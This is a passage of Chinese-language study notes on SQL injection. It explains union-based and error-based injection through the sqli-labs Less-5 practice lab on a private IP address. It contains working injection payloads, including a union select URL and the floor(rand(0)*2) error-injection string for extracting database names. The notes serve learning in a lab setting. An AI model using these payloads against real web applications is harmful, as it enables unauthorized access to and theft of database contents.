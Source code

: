 <img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220807014024188.png" alt="image-20220807014024188" style="zoom: 50%;" /><img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220807014046569.png" alt="image-20220807014046569" style="zoom:50%;" />

### union注入局限

如果在服务器的源码中，sql拼接语句有`换行`的话，就会导致`注释符失效`，导致union注入失败。

## 3.2 报错注入

**报错注入**是一种页面响应形式，即构造语句，让错误的信息夹杂在可以显示数据库内容的查询语句里，然后服务器返回的报错提示中就包含了我们要查询的数据库内容。响应过程如下：

1. 用户在前台页面输入检索内容；
2. 后台将前台页面上输入的检索内容`无加区别`的拼接成sql语句，交付给数据库执行；
3. 数据库将执行的结果返回给后台，后台将数据库执行的结果`无加区别`的显示到前台页面上；

`注：两个无加区别，即后台对于输入输出的合理性没有做检查,这是报错注入存在的基础。`能使用union注入就尽量使用union注入，因为报错注入有很多局限，而且回显的数据也不全。

### 靶场学习

**1.打开less-5，判断出闭合方式是'，然后尝试union注入，发现没有报错，但是结果也不回显。**

```sql
http://192.168.37.148/sql/Less-5/?id=-1' union select 1,2,database() -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729105601679.png" alt="image-20220729105601679" style="zoom:33%;" />

**2.于是故意输错信息，看显示的报错信息，发现有报错注入的基础，间接获得了数据库名security。**

```sql
http://192.168.37.148/sql/Less-5/?id=-1' union select 1,2,datadase() -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729105909470.png" alt="image-20220729105909470" style="zoom:33%;" />

### （1）floor()（最难！！！）

详解：https://www.secpulse.com/archives/140616.html

```sql
and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a) %23
```

#### 使用到的函数：

**1.`rand()`函数：随机返回0-1之间的小数**

```sql
select rand() from users;
#user表内有几条数据，就打印出几个0-1的随机数
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220730093630313.png" alt="image-20220730093630313" style="zoom:33%;" />

**2.`floor()`函数：小数向下取整。（向上取整：`ceiling()`）**

```sql
select floor(rand()*2);
#结果随机为0或者1
```
